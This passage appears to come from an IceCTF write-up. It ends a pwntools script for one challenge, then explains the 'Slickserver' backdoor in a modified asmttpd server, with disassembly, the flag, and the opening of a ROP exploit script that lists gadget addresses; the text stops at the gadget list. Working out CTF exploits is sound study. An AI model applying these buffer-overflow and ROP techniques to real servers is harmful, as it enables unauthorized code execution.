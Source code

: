 ``` python

# secret flag
p = remote(args.host, args.port)
p.recvuntil('Send me a command: ')
p.sendline('secret')
p.recvuntil('Send me an encrypted command: ')
p.sendline(base64.b64encode(zeropad(ciphertext)))
flag = base64.b64decode(p.recvline())
log.info('encrypted flag: %s', repr(flag))
p.close()

# decrypt flag
flag = decrypt(flag)
log.info('flag: %s', flag)
```

## Slickserver

The binary is based on <https://github.com/nemasu/asmttpd>, a HTTP server using threads.

The backdoor using HMAC is added.
If you uses the buffer overflow vulnerability for this and rewrite the flag on `rbp-0x20`, it computes the HMAC value of the payload and jump to the place given as a xor value of the HMAC value and the integer on `rbp-0x20`.

``` asm
0000000000401010 <worker_thread_continue>:
  401010:	48 8b 7d f8          	mov    rdi,QWORD PTR [rbp-0x8] # fd
  401014:	48 8b 75 f0          	mov    rsi,QWORD PTR [rbp-0x10] # buf
  401018:	48 c7 c2 00 20 00 00 	mov    rdx,0x2000 # len
  40101f:	e8 93 f9 ff ff       	call   4009b7 <sys_recv>
  401024:	48 83 f8 00          	cmp    rax,0x0
  401028:	0f 8e 74 03 00 00    	jle    4013a2 <worker_thread_close>
  40102e:	50                   	push   rax
  40102f:	4c 8b 6d e0          	mov    r13,QWORD PTR [rbp-0x20] # backdoor flag
  401033:	4d 85 ed             	test   r13,r13
  401036:	74 0f                	je     401047 <worker_thread_continue_nohook>
  401038:	48 8b 7d f0          	mov    rdi,QWORD PTR [rbp-0x10] # buf
  40103c:	e8 a3 fd ff ff       	call   400de4 <hmac>
  401041:	49 31 c5             	xor    r13,rax
  401044:	41 ff e5             	jmp    r13
```

Now, you can do ROP and get the flag `IceCTF{r0p+z3-FTW}`.

I fix the socket fd as $5$, and construct a gadget dynamically.
Even if it works locally, long chains didn't work on the server. You need to golf a little.

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='slick.vuln.icec.tf')
parser.add_argument('port', nargs='?', default=6600, type=int)
args = parser.parse_args()
context.log_level = 'debug'
context.arch = 'amd64'

mov_rdi_rcx_al_stackpop_ret = 0x00400100 # mov byte [rdi+rcx], al ; pop rbx ; pop rcx ; pop r8 ; pop rcx ; pop rbx ; pop r9 ; pop r10 ; pop rdx ; pop rsi ; pop rdi ; ret
pop_rdi_rcx_mov_rax_r14_ret = 0x00400c9b # pop rdi ; pop rcx ; mov rax, r14 ; ret
mov_eax_esi_ret = 0x00400c9e # mov eax, esi ; ret
pop_rdx_rsi_rdi_ret = 0x0040010d # pop rdx ; pop rsi ; pop rdi ; ret
pop_rsi_rdi_ret = 0x0040010e # pop rsi ; pop rdi ; ret
pop_rdi_ret = 0x0040010f # pop rdi ; ret
```